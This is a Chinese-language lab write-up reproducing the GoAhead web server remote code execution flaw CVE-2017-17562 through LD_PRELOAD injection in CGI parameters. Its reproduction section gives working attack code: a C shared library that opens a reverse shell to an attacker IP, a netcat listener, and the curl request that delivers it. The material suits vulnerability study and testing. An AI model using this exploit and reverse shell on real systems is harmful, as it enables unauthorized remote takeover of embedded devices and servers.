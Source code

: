 # GoAhead Server 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给`http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

参考链接：

- https://www.elttam.com.au/blog/goahead/

## 漏洞影响

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。但是访问`http://your-ip:8080/cgi-bin/index`不能查看到Hello页面，**重新搭建复现环境**。

- 参考阅读：https://xz.aliyun.com/t/6407

下载、编译并运行存在该漏洞的GoAhead（3.6.4）：

```
git clone https://github.com/embedthis/goahead.git
cd goahead
git checkout tags/v3.6.4 
make #编译GoAhead
cd test # 要进到test目录下运行，其它目录下没有self.key等文件会报错
gcc ./cgitest.c -o cgi-bin/cgitest #编译用来测试的CGI文件
sudo ../build/linux-x64-default/bin/goahead #运行GoAhead Web服务器
```

成功启动GoAhead Web服务器：

![image-20220223230137501](images/202202232301657.png)

测试cgi页面能否访问。成功访问，显示版本为3.6.4，存在CVE-2017-17562漏洞，开始漏洞复现。

```
$ curl http://172.16.217.185:80/cgi-bin/cgitest
```

![image-20220223225715929](images/202202232257119.png)

## 漏洞复现

编译用于动态加载的so，首先新建`exp.c`。

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="192.168.174.128";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
  //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
  //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
  //execute /bin/sh to get a shell
    execve("/bin/sh", 0, 0);
}
```

gcc将`exp.c`编译为`exp.so`。

```
gcc -shared -fPIC ./exp.c -o exp.so
```

在控制端监听9999端口：

```
nc -vvl 9999
```

执行POC：

```
curl -X POST --data-binary @exp.so http://192.168.174.128/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

成功获取shell并执行命令：

![image-20220223230039847](images/202202232300924.png)
